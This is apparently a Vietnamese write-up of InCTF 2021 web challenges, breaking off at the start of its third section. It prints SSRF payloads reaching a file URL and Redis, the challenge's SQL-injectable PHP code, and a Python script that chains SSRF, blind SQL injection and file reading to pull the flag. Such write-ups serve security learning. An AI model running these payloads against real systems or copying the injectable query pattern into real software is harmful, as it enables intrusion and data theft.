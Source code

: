 # INCTF2021_web_writeup
---
## Raas
- Từ file docker, biết được source code nằm ở /code và 2 file main.py và app.py, tải file về bằng payload:
``` file://web.challenge.bi0s.in:6969/code/app.py ```

- Yêu cầu là set '_isAdmin' thành "yes", chuỗi '_isAdmin' sẽ được nối vào sau uid của người dùng => key có dạng uid+'_isAdmin', value='false'
- Ngoài ra ta được một gợi ý là sử dụng 'inctf://redis:6379/_get', thử đổi get thành set, payload:
``` inctf://redis:6379/_set {uid}_isAdmin yes ```
---
## Vuln Drive
- /source để lấy source code -> /dev-test -> ssrf
- Nhưng hàm 'url_validate(url)' Chặn các payload thông thường
``` 
def url_validate(url):
    blacklist = ["::1", "::"]
    for i in blacklist:
        if(i in url):
            return "NO hacking this time ({- _ -})"
    y = urlparse(url)
    hostname = y.hostname
    try:
        ip = socket.gethostbyname(hostname)
    except:
        ip = ""
    print(url, hostname,ip)
    ips = ip.split('.')
    if ips[0] in ['127', '0']:
        return "NO hacking this time ({- _ -})"
    else:
        try:
            url = unquote(url)          #  <==
            r = requests.get(url,allow_redirects = False)
            return r.text
        except:
            print(url, hostname)
            return "cannot get you url :)"
```
- Từ chức năng upload -> lfi /etc/hosts -> 1 đường dẫn khác
- Sử dụng đường dẫn đó để ssrf -> 1 trang php
```
<?php
include('./conf.php');
$inp=$_GET['part1'];
$real_inp=$_GET['part2'];
if(preg_match('/[a-zA-Z]|\\\|\'|\"/i', $inp)) exit("Correct <!-- Not really -->");
if(preg_match('/\(|\)|\*|\\\|\/|\'|\;|\"|\-|\#/i', $real_inp)) exit("Are you me");
$inp=urldecode($inp);
//$query1=select name,path from adminfo;
$query2="SELECT * FROM accounts where id=1 and password='".$inp."'";
$query3="SELECT ".$real_inp.",name FROM accounts where name='tester'";
$check=mysqli_query($con,$query2);
if(!$_GET['part1'] && !$_GET['part2'])
{
    highlight_file(__file__);
    die();
}
if($check || !(strlen($_GET['part2'])<124))
{
    echo $query2."<br>";
    echo "Not this way<br>";
}
else
{
    $result=mysqli_query($con,$query3);
    $row=mysqli_fetch_assoc($result);
    if($row['name']==="tester")
        echo "Success";
    else
        echo "Not";
    //$err=mysqli_error($con);
    //echo $err;
}
?>
```
- SQLi!!! Phân tích code, cần làm query2 trả về sai và lợi dụng query3 để blind sqli(vì kết quả cuối cùng chỉ trả về cho ta Not hay Success)
- Vì part1 đã chặn hết alphabet và kí tự ```'``` -> Sử dụng urlencode: 0x252527 - ```__'```
- Phần part2, được gợi ý từ comment -> flag có thể nằm trong bảng adminfo.
- Payload:
```http://192.168.96.2/part1=0x252527&part2=path,name FROM adminfo WHERE path like 0x25{}25 UNION SELETE 1```
- solve.py:
```
import requests
import string
url="http://web.challenge.bi0s.in:6006/login"
url2="http://web.challenge.bi0s.in:6006/return-files?f="
url1="http://web.challenge.bi0s.in:6006/dev_test"
def login():
  r = requests.post(url,data={'username':'admin','password':'1337'}, allow_redirects = False)
  newcookie= r.cookies['session']
  return newcookie
patt=""
payload=""
dem=0
newcookie=login()
print(newcookie)
while 1:
  dem=dem+1
  print(dem)
  for i in "/" + string.ascii_letters + string.digits:
    data1={"url":"http://192.168.96.2?part1=%252527&part2=path,name from adminfo where path like 0x25{}25 Union select password".format((payload+i).encode('utf-8').hex())}
    r =requests.post(url1,data=data1,cookies={"session":""+newcookie})
    #print(r.text)
    if "Not" in r.text:
      payload=payload + i
      print("+[flag]= ",payload)
      r3=requests.get(url2+payload, cookies={"session":""+newcookie})
      print(r3.text)
      break
```
- Vì bị giới hạn độ dài nên tên file sẽ không được in ra hết (27 kí tự). Thêm 1 phần nhỏ sau chuỗi ra nhận được để lấy tiếp phần tiếp theo của file
- LFI file đó => flag: ```inctf{y0u_pr0v3d_th4t_1t_i5_n0t_53cur3_7765626861636b6572}```
---
## Json Analyser
1. Lấy mã PIN:
- 
